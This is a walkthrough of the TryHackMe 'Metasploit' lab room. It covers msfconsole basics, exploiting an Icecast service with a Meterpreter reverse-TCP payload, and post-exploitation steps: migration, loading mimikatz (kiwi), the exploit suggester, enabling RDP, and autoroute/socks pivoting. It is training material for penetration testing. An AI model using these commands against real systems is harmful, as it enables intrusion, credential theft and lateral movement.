 #  TryHackMe - Metasploit (Room 016)

<details><summary>Intro</summary>
<p>

![](/Metasploit/images/metasploit.png)

Metasploit - an open source pentesting framework - is a powerful tool utilized by security engineers around the world. Maintained by Rapid7, Metasploit is a collection of not only thoroughly tested exploits but also auxiliary and post-exploitation tools. Throughout this room, we will explore the basics of using the framework and a few of the modules it includes

</p>
</details>

<details><summary>Initializing</summary>
<p>

![](/Metasploit/images/init.png)

If this is your first time using Metasploit, you will have just a few things to do before you utilize its full functionality

First things first, we need to initialize the database via the command `msfdb init`

![](/Metasploit/images/msfdb.png)

Before starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command `msfconsole -h`

![](/Metasploit/images/help.png)

We can start the Metasploit console on the command line without showing the banner or any startup information as well via the `-q` flag

Once the database is initialized, go ahead and start Metasploit via the command `msfconsole`

![](/Metasploit/images/msfconsoel.png)

After Metasploit has started, you can check we have connected to the database via the `db_status` command

![](/Metasploit/images/db.png)

Metasploit uses a PostGreSQL type of database as seen above

</p>
</details>

<details><summary>Rock 'em to the Core [Commands]</summary>
<p>
	
![](/Metasploit/images/rock.png)

On the Metasploit prompt, type the command `help`

![](/Metasploit/images/help2.png)

The help menu has a very short one-character alias which is `?`

Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. The base command we use for searching is simply `search`

Once we have found the module we want to leverage, we use the command `use` to select it. If we want to view information about either a specific module or just the active module we use the `info` command

Metasploit has a built-in netcat-like function where we can make quick connections with a host simply to verify that we can talk to it. This command is the `connect` command

If you just want to see the MOTD/ASCII art when we start msfconsole, simply type the `banner` comamnd

![](/Metasploit/images/banner.png)

To change the value of a variable, we use the `set` command. Metasploit also supports the use of global variables, something which is incredibly useful when you are specifically focusing on a single box. The command to change global variables is the `setg` command

To view the value of the variables, we use the `get` command

![](/Metasploit/images/get.png)

To change the value of a variable to null/no value we use the `unset` command

When performing a penetration test, it is quite common to record your screen either for further review or for providing evidence of any actions taken. This is often couple with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. The `spool` command can be used to set the console output to save to a file

Leaving a Metasploit console running is NOT always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. The `save` command can be used to store the settings/active datastores from Metasploit to a settings file. This saves within the msf4 or msf5 directory and can be undone easily by simply removing the created settings file

</p>
</details>

<details><summary>Modules for Every Occasion</summary>
<p>
	
![](/Metasploit/images/modules.png)

Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it

![](/Metasploit/images/module.png)

Easily the most common module utilized is the `exploit` modules - these hold all of the exploit code we use. Another module used hand in hand with exploits is the `payload` modules which contain the various bits of shellcode we send to have executed following exploitation

The `auxiliary` module is most commonly used in scanning and verification that machines are exploitable

One of the most common activities after exploitation is looting and pivoting. The `post` module provides these capabilities

The `encoder` module allows us to modify the apperance of our exploit such that we avoid signature detection. It is commonly used in payload obfuscation

The `nop` module is used with buffer overflow and ROP attacks

To load different modules not loaded in by default, you can use the `load` command

</p>
</details>

<details><summary>Move That Shell</summary>
<p>

![](/Metasploit/images/shell2.jpg)
	
Metasploit comes with a built-in way to run nmap and feed it's results directly into the database. Can run it via the `db_nmap -sV [IP]` command

![](/Metasploit/images/nmap.png)

On port 135, it identifies the service as MS RPC. By typing the `hosts` command into msfconsole, we can see waht information we have collected in the database

![](/Metasploit/images/hosts.png)

By typing `services`, we can see more information

![](/Metasploit/images/services.png)

It's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged powerfully and quickly. Done by typing `vulns`

![](/Metasploit/images/vulns.png)

Now that we've scanned the victim system, we can try connecting to it with a Metasploit payload. First, we have to search for the target payload. In Metasploit 5 you can simply type `use` followed by a unique string found within only the target exploit

For example try it now with the following command `use icecast`. The full path for the exploit that appears in the prompt is `/exploit/windows/http/icecast_header`

![](/Metasploit/images/icecast.png)

While that command with the unique string can be incredibly useful, it is not quite the exploit we want. Now, run the command `search multi/handler`. We can use the number instead of the name of the module for quicker exploitation

![](/Metasploit/images/number.png)

Select the number 7 from the previous list and set the payload using the command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, run the command `set LHOST [IP]`

![](/Metasploit/images/set.png)

Next, go ahead and `use icecast` and set the RHOST to the IP via `set RHOSTS [ip]`

![](/Metasploit/images/ice.png)

Once the variables are set, run the exploit via the `exploit` command or the `run -j` command to run it as a job

![](/Metasploit/images/meterpreter.png)

Once started, we can check all of the jobs running on the system by running the `jobs` command

After we have established our connection, we can list all of our sessions using the command `sessions`. Similiarly, we can interact with a target session using the command `sessions -i [number]`

![](/Metasploit/images/sessions.png)

</p>
</details>

<details><summary>We're In, Now What?</summary>
<p>
	
![](/Metasploit/images/werein.png)

Now that we have a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage

First things first, our initial shell/process typically is not very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command `ps`

![](/Metasploit/images/ps.png)

The name of the spool service is `spoolsv.exe`. We can try and migrate to that spool process. To migrate, simply type `migrate [PID]` along with the PID of the process

![](/Metasploit/images/migrate.png)

That migration did not work. Let's find out some more information about the system so we can try to elevate. The `getuid` command gives us more information regarding the current user running the process we are in

![](/Metasploit/images/getuid.png)

To find out more information about the system itself, we use the `sysinfo` command

![](/Metasploit/images/sysinfo.png)

To load a post exploitation module called mimikatz, we can type `load kiwi`

![](/Metasploit/images/kiwi.png)

If we want to transfer files to our victim, we use the `upload` command. If we want to run a Metasploit module, we use the `run` command. If we want to figure out the networking information and interfaces on our victim, we can run the `ipconfig` command

![](/Metasploit/images/ip.png)

We can go ahead and run a few post modules from Metasploit. First, run the command `run /post/windows/gather/checkvm`. This determines if we are in a VM - very useful piece of knowledge for further pivoting

![](/Metasploit/images/checkvm.png)

Next, try running `run /post/multi/recon/local_exploit_suggester`. This checks for various exploits which we can run within our session to elevate our privileges

![](/Metasploit/images/suggest.png)

Finally, let's try forcing RDP to be available. This won't work since we are not administrators but this is a fun command to know about: `run post/windows/manage/enable_rdp`

![](/Metasploit/images/rdp.png)

Can also run the `shell` command to spawn a normal system shell on the victim
</p>
</details>

<details><summary>Makin' Cisco Proud</summary>
<p>
	
![](/Metasploit/images/cisco.png)

Last but not least, let's take a look at the autorouting options available to us in Metaspoit. While our victim machine may not have multiple network interfaces (NICs) we will walk through the motions of pivoting through our victim as if it did have access to extra networks

First, run the command `run autoroute -h`. This pulls up the help menu for autoroute. To add a route to the following subnet (172.18.1.0/24), we use the command:

	`run autoroute -s 172.18.1.0/24 -n 255.255.255.0`

![](/Metasploit/images/autoroute.png)

Additionally, we can start a socks4a proxy server out of this session. First, background out of the current meterpreter session and run the command `search server/socks4a`. The full path of this auxiliary module is `auxiliary/server/socks4a`

![](/Metasploit/images/socks.png)

Once we have started a socks server, we can modify our /etc/proxychains.conf file to include our new server. The `proxychains` command allows us to run them through our socks4a server
</p>
</details>